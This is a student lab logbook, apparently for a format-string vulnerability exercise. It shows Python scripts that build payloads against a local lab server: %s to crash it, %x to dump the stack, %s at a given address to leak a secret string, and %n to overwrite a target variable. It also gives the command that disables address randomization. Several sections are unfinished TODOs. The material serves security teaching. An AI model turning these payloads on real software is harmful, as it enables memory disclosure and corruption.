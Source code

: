 # Log Book 6

## Environment Setup

### Disable adress randomization

`sudo sysctl -w kernel.randomize_va_space=0`

### Server output

This is a sample output of the server.

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd840
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 6 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd768
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hello
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
## Task 1

For this task we had to construct a simple payload to exploit the format-string
vulnerability in the server. By analyzing the program source code we can see that the 
program reads user input into the buf variable. Then, this data is passde to 
`myprintf()` to print out the data. We were able to crash the server by filling the 
buf variable with multiple *%s*.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

for i in range(0, N, 2):
  content[i:i+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
## Task 2
### Task 2.A

// TODO: How many %x

The objective of this task is to print out the data on the stack and to print
out the first four bytes of our input. To do this we started by choosing some
unique numbers (4 bytes) so we can immediately tell when they are printed out.
We chose 0xaabbccdd. The rest of the payload is filled with ?? *%x* format specifiers. 

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaabbccdd
content[0:4]  =  (number).to_bytes(4,byteorder='little')

n = 64
x = "%x"
for i in range(4, 4 + 2 * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 2A](./LOGBOOK6_img/task_2_A.png)

### Task 2.B

TODO

For this task there was a secret message string stored in the heap area that we had 
to find. For this task, the first four bytes of the payload were filled with
the secret message address that was given. Then, our input is followed by ?? *%x* 
format specifiers which will print out the data on the stack we finish by
adding a *%s* format specifier that will print the secret message string.

The secret message string was: "A secret message"

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_addr  = 0x080b4008
content[0:4]  =  (secret_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 2B](./LOGBOOK6_img/task_2_B.png)

## Task 3

### Task 3.A

TODO

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 3A](./LOGBOOK6_img/task_3_A.png)

### Task 3.B

TODO

```py
#!/usr/bin/python3
import sys
from math import floor

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n_bytes_to_print = 0x5000
n = 64 - 1
x_size = int(floor(n_bytes_to_print/n))
x = "%0" + str(x_size) + "x"
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# write number of written bytes to var
s_offset = skip_b + len(x) * n
# need to subtract 4 because it will write 4 bytes for the string
remaining = (n_bytes_to_print - (x_size * n)) - 4
n_str = "0"*remaining + "%n"
content[s_offset:s_offset+len(n_str)] = (n_str).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 3B](./LOGBOOK6_img/task_3_B.png)
